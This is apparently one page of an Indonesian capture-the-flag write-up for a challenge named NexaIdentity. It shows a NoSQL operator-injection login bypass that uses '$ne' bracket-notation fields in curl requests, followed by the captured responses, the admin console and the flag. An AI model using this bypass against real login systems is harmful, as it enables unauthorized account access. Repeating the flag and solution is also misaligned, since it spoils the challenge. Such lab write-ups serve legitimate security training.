

# NexaIdentity — Eksploitasi / Solver

[← Overview](11-nexaidentity.md) · [Index](index.md)

> **Langkah 5/9 — Eksploitasi / Solver.** Login normal sebagai employee:
>
> **Titik penting:** curl -sS -i -c admin.cookies \ · curl -sS -b admin.cookies "$BASE/dashboard" \| grep -o 'nav-user">[^<]*' · curl -sS -b admin.cookies "$BASE/admin" \| grep -i -A2 -B2 'NFX{'
>
> **Berikutnya:** [Script minimal](11-nexaidentity-06-script-minimal.md)

## 3.1 Strategi

- Gunakan bracket notation `[$ne]` pada kedua field login.
- Backend meneruskan objek operator ke query; user pertama (admin) cocok.
- Buka `/admin` dan baca recovery token.

## 3.2 Langkah exploit (live)

```bash
BASE=http://s1.nfx.my.id:41270

# 1. login sebagai admin dengan operator NoSQL
curl -sS -i -c admin.cookies \
  -X POST \
  --data-urlencode 'email[$ne]=x' \
  --data-urlencode 'password[$ne]=x' \
  "$BASE/login"
# HTTP/1.1 302 Found
# Location: /dashboard
# Set-Cookie: connect.sid=...

# 2. konfirmasi identitas
curl -sS -b admin.cookies "$BASE/dashboard" | grep -o 'nav-user">[^<]*'
# nav-user">Nadia Kusuma · People Operations

# 3. buka console admin
curl -sS -b admin.cookies "$BASE/admin" | grep -i -A2 -B2 'NFX{'
```

## 3.3 Output asli

Login normal sebagai employee:

```text
POST /login
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: connect.sid=s%3Aa7Mug...; Path=/; HttpOnly; SameSite=Lax
```

Dashboard employee:

```text
nav-user">Raka Pratama · Platform Engineering
```

`/admin` sebagai employee:

```text
HTTP/1.1 403 Forbidden
...
<p class="muted">The identity admin console is restricted to People Operations administrators.</p>
```

Login dengan operator:

```text
POST /login
email[$ne]=x&password[$ne]=x
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: connect.sid=s%3ARWUt...; Path=/; HttpOnly; SameSite=Lax
```

Dashboard setelah bypass:

```text
nav-user">Nadia Kusuma · People Operations
```

`/admin`:

```html
<h1>Identity admin console</h1>
<span class="pill pill-role">Administrator</span>
...
<h2>Restricted recovery note</h2>
<div class="admin-note">
  <p>Emergency recovery token for the identity vault: NFX{n0sql_0p3r4t0r_4uth_byp4ss}</p>
</div>
```

### Evidence langkah ini



*Terminal evidence — `03-login-normal.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-login-normal.txt`](assets/nexaidentity/03-login-normal.txt)
